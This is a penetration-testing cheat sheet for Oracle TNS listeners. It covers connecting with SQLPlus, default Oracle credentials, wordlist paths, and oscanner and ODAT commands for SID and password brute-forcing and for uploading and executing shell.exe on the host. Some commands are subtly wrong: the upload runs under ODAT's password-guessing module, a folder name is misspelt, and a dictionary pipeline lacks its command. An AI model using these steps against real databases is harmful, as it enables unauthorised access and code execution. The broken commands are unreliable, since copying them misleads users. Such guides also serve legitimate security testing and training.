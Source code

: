 # Oracle TNS Listener - 1521,1522,1529

## Oracle Information

Oracle database (Oracle DB) is a relational database management system (RDBMS) from the Oracle Corporation (from [here](https://www.techopedia.com/definition/8711/oracle-database)).

When enumerating Oracle, the first step is to contact the TNS-Listener, which is normally found on the default port (1521/TCP; secondary listeners can be found on ports 1522–1529).

```
1521/tcp open  oracle-tns    Oracle TNS Listener 9.2.0.1.0 (for 32-bit Windows)
1748/tcp open  oracle-tns    Oracle TNS Listener
```

## SQLPlus Authentication

To login using known credentials:

```
sqlplus <username>/<password>@<ip_address>/<SID>;
```

If the TNS Listener is on a non-default port (e.g. TCP/1522) :

```
sqlplus <username>/<password>@<ip_address>:<port>/<SID>;
```

If an **account has system database privileges (sysdba) or system operator (sysop)** you may wish to try the following:

```bash
sqlplus <username>/<password>@<ip_address>/<SID> 'as sysdba';
```

## **SID Bruteforce**

In order to use **oracle\_login** with **patator** you need to **install**:

```
pip3 install cx_Oracle --upgrade
```

### **Default Passwords**

Below are some of the default passwords associated with Oracle:

* **DBSNMP/DBSNMP** — Intelligent Agent uses this to talk to the db server (its some work to change it)
* **SYS/CHANGE\_ON\_INSTALL** — Default sysdba account before and including Oracle v9, as of version 10g this has to be different!
* **PCMS\_SYS/PCMS\_SYS** — Default x account
* **WMSYS/WMSYS** — Default x account
* **OUTLN/OUTLN** — Default x account
* **SCOTT/TIGER** — Default x account

### User/Pass bruteforce

Different tools offered **different user/pass lists** for oracle:

* **oscan:** _/usr/share/oscanner/accounts.default_ (169 lines)
* **MSF-1:**  _from_ admin/oracle/oracle\_login  __  /usr/share/metasploit-framework/data/wordlists/oracle\_default\_passwords.csv (598 lines)
* **MSF-2:** _from scanner/oracle/oracle\_login_  _/usr/share/metasploit-framework/data/wordlists/oracle\_default\_userpass.txt_ (568 lines)
* **Nmap:** _/usr/share/nmap/nselib/data/oracle-default-accounts.lst_ (687 lines)

## oscanner

**Oscanner**, which will try to get some valid SID, and then it will brute-force for valid credentials and try to extract some information:

```bash
#apt install oscanner
oscanner -s <IP> -P <PORT>
```

## ODAT

{% embed url="https://github.com/quentinhardy/odat" %}

**ODAT** (Oracle Database Attacking Tool) is an open-source **penetration testing** tool that tests the security of **Oracle Databases remotely**.

Usage examples of ODAT:

* You have an Oracle database listening remotely and want to find valid **SIDs** and **credentials** in order to connect to the database
* You have a valid Oracle account on a database and want to **escalate your privileges** to become DBA or SYSDBA
* You have an Oracle account and you want to **execute system commands** (e.g. **reverse shell**) in order to move forward on the operating system hosting the database

Tested on Oracle Database **10g**, **11g**, **12c**, **18c,** and **19c**.

Your Oracle version:

```
ls /usr/local/lib/oracle
```

Wiki of ODAT:

{% embed url="https://github.com/quentinhardy/odat/wiki" %}

### Install ODAT

We can install ODAT with the following commands:

```
git clone https://github.com/quentinhardy/odat
cd odat
git submodule init
git submodule update
sudo apt-get install libaio1 python3-dev alien python3-pip
pip3 install cx_Oracle
```

As the victim machine is 64 bits, we downloaded the client basic SDK and SQLPlus from the Oracle website

```
mkdir isolation
cd isolation
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-basic-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-sqlplus-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-devel-21.1.0.0.0-1.x86_64.rpm
```

Now we convert the `.rpm` files into `.deb` files and install them:

```
alien --to-deb *.rpm
dpkg -i *.deb
```

We add the environment variables to the `.zshrc`:

```
ls /usr/lib/oracle

#Output
21

vi ~/.zshrc

export ORACLE_HOME=/usr/lib/oracle/21/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
```

Let's check that everything has been installed well:

```
sqlplus64
python3 odat.py --help
```

### Find Valid Credentials

You can do SID guessing attack with the following command:

```
python3 odat.py sidguesser -s <IP>
```

Dictionary

```
/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv | tr ' ' '/' | tail -n 50 > passwords.txt
```

After finding a valid SID:

```
python3 odat.py passwordguesser -s <IP> -d <SID> --accounts-file passwords.txt
```

### Upload Files

```
# No sysdba
python3 odat.py passwordguesser -s <IP> -d <SID> -U "username" -P "password" --putFile /Temp shell.exe shell.exe
# Use sysdba
python3 odat.py passwordguesser -s <IP> -d <SID> -U "username" -P "password" --putFile /Temp shell.exe shell.exe --sysdba
```

### Execute Commands

```
# No sysdba
python3 odat.py externaltable -s <IP> -d <SID> -U "username" -P "password" --exec /Temp/shell.exe
# Use sysdba
python3 odat.py externaltable -s <IP> -d <SID> -U "username" -P "password" --exec /Temp/shell.exe --sysdba
# Alternatively
./odat.py externaltable -s <IP> -U <username> -P <password> -d <SID> --exec "C:/windows/system32" "calc.exe"

```

Generalized:

```bash
git clone https://github.com/quentinhardy/odat.git
cd oda
pip3 install python-libnmap
pip3 install cx_oracle
python3 odat.py all -s <IP> -p <PORT>
```
